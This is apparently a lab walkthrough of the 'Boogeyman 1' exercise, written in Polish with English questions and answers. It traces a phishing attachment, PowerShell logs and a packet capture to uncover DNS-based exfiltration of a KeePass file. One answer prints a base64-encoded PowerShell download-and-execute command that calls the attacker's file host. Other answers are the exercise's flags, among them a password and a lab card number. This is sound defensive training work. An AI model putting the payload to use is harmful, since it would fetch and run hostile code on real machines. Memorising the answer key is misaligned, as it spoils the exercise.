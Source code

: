#Boogeyman 1
TASK1
W boxie tym naszym zadaniem jest przeanalizowanie TTPs'a wykonanego na maszynie.
Całe zadanie zostało podzielone na 3 etapy:
Etap1 - Analiza maila phishingowego
Etap2 - Analiza logów powershella
Etap3 - Analiza logów pakietów internetowych

---
## Task1
**Q:** Let's hunt that boogeyman! </br>
**A:** No answer needed

---



TASK2
Q: What is the email address used to send the phishing email?

W: Przechodzimy do folderu z artefaktami, znajdujemy plik dump.eml który otwieramy w aplikacji thunderbird mail. Informacje o nadawcy maila możemy uzyskać bez głębszego analizowania maila, wartość dla pola From:.

A: agriffin@bpakcaging.xyz



Q: What is the email address of the victim?

W: Informacje o odbiorcy maila możemy zauważyć bez glębszego analizowania maila, wartość dla pola To:.

A: julianne.westcott@hotmail.com



Q: What is the name of the third-party mail relay service used by the attacker based on the DKIM-Signature and List-Unsubscribe headers?

w: Przechodzimy do More>Show Source, wyszukujemy pole DKIM-Signature, nazwa serwisu znajduje sie w polu p=.

A: elasticemail


Q: What is the name of the file inside the encrypted attachment?

W: Pobieramy załącznik i rozpakowywujemy go na spreparowanym sandboxie przy użyciu hasła zawartego w mailu.

A: Invoice_20230103.lnk


Q: What is the password of the encrypted attachment?

W: Hasło znajdujemy bezpośrednio w mailu.

A: Invoice2023!



Q: Based on the result of the lnkparse tool, what is the encoded payload found in the Command Line Arguments field?

W: Uruchamiamy cmd, przechodzimy na Desktop, wykonujemy komende lnkparse nazwa_pliku. Informacja o komendzie możemy dostrzec w polu Command line arguments po fladze -enc.

A: aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==





TASK3

Q: What are the domains used by the attacker for file hosting and C2? Provide the domains in alphabetical order. (e.g. a.domain.com,b.domain.com)

W: Uruchamiamy cmd w folderze zawierajacym artefakt jsona, wykonujemy komende:
cat powershell.json | jq -s -c 'sort_by(.Timestamp) | .[]'| jq '{ScriptBlockText}'| sort | uniq
W polu ScriptBlockText $s= możemy zauważyć pierwsza domene ktora posłużyła do ataku, następną domene możemy odczytać poniżej.

A: cdn.bpakcaging.xyz,files.bpakcaging.xyz



Q: What is the name of the enumeration tool downloaded by the attacker?

W: Nazwe pobranego narzędzia możemy dostrzec po uruchomieniu tej samej komendy, wyszukujemy w treści wartość .exe

A: seatbelt



Q: What is the file accessed by the attacker using the downloaded sq3.exe binary? Provide the full file path with escaped backslashes.

W: W tym samym miejscu możemy odszukac wartosc zależne od sq3.exe, w tym sqlite.

A: C:\\Users\\j.westcott\\AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite



Q: What is the software that uses the file in Q3?

W: W tym samym miejscu możemy zauważyć wiele wspomnień dla MicrosoftStickyNotes, również w tym gdzie plik wykonywalny został zapisany.

A: Microsoft Sticky Notes



Q: What is the name of the exfiltrated file?

W: W tym samym miejscu, szukamy gdzie dane mogłybyć zapisane, jest to jeden z końcowych etapów ataków więc informacji o tym szukamy na końcu logów.

A: protected_data.kdbx



Q: What type of file uses the .kdbx file extension?

W: Informacje o tym możemy znaleść w zewnętrznych źródłach.

A: keepass



Q: What is the encoding used during the exfiltration attempt of the sensitive file?

W: Informacje o tym możemy znaleść w miejscu gdzie dane są wysyłane, np w tym samym ciagu co metoda POST, odnajdujemy informacje o tym na poczatku, w polu ScriptBlockText $split = 

A: hex



Q: What is the tool used for exfiltration?

W: W tym samym miejscu co kodowanie możemy znaleść informacje o narzędziach użytych do wysłania danych.

A: nslookup



TASK4

Q: What software is used by the attacker to host its presumed file/payload server?

W: Uruchamiamy capture.pcapng przy użyciu Wiresharka, wiemy nazwe pliku oraz to ze zawartosc zostala przeslana poprzez protokół http. Filtrujemy ruch poprzez filtr:
http contains "files.bpakcaging.xyz", dostrzegamy 5 pakietów. Przechodzimy na początek, prawy na pakiet, Follow > TCP Stream. Podążanie za potokiem pakietu z początku ataku pozwala na dokładną analizę komunikacji podczas ataku. W wartosc przesyłanych przez serwer w polu Server: możemy dostrzec oprogramowanie serwera

A: python



Q: What HTTP method is used by the C2 for the output of the commands executed by the attacker?

W: Informacja o tym dostępna była w poprzednim zadaniu, wiemy, że atakujący przysyłał dane poprzez POST'a

A: POST



Q: What is the protocol used during the exfiltration activity?

W: Informacja o tym dostępna była w poprzednim zadaniu, wiemy, że atakujący przysyłał dane poprzez nslookup czyli protokół dns'a

A: dns



Q: What is the password of the exfiltrated file?

W: W poprzednich zadaniach mogliśmy dostrzec plik sq3.exe który posłużył do zebrania danych z urządzenia.
Otwieramy Wiresharka oraz nasz plik pcapng, wyszukujemy pakietów które zawierają ten plik czyli filtr:
http contains "sq3.exe". Dostrzegamy 4 pakiety. Śledzimy Potok TCP pierwszego, możemy zauważyć, że numerem tego potoku jest 749, sprawdzamy co stało się następnie czyli dla potoku o numerze 750.
Dostrzegamy zakodowany ciąg liczbowy. Wprowadzamy ten ciąg do CyberChefa z wyszukiwaniem jakim algorytmem został zakodowany czyli operacja "Magic". Otrzymujemy entropie 5.33 dla kodowania From_Decimal('Space',false). Stosujemy tą operację zamiast Magic, uzyskujemy tym samym jawne dane, w tym hasło które posłużyło do zakodowania bazy danych.

A: %p9^3!lL^Mz47E2GaT^y



Q: What is the credit card number stored inside the exfiltrated file?

W: W celu uzyskania informacji o karcie, musimy odczytać tą zawartość z bazy danych.
Możemy zastosować następującą komende w cmd:
tshark -r capture.pcapng  -Y 'dns' -T fields -e dns.qry.name |grep ".bpakcaging.xyz" | cut -f1 -d '.'|grep -v -e "files" -e "cdn" | uniq | tr -d '\\n'
która odczyta plik pcap, nałoży filtr dns a następnie odpowiednio podzieli dane tabel. Tak uzyskany ciąg tekstowy musimy odkodować z hexowego np w cyberchefie. Zapisując wyniki z cyberchefa w formie nazwapliku.kdbx pozwala na uzyskanie dostepu do bazy danych poprzez program KeePassX wraz z podaniem hasła które uzyskaliśmy w poprzednim pytaniu.


A: 4024007128269551


